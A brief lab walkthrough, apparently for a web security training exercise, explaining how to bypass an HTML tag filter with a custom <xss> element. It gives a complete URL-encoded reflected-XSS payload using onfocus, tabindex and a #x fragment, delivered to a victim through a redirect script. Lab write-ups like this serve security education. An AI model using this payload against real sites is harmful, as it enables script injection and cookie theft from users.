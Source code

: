 ## Solution steps

- The lab filters standard HTML tags like `<script>`, `<img>`, `<svg>`, etc.
- Only custom tags (like `<xss>`, `<abc>`, etc.) are allowed.
- Since custom tags are allowed, we can use a custom element like <xss> and attach an event handler to it.
- `onfocus=alert(document.cookie)` → to run the script.
- `tabindex=1` → to make the element focusable.
- `#x` → to automatically give focus to the element with `id="x"` on page load.
- Go to the exploit server.
- Enter this Final URL encoded Payload in the Body:
  `<script>
    location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
  </script>`
- Write your actual lab id in place of `YOUR-LAB-ID` and click `Deliver exploit to victim`.
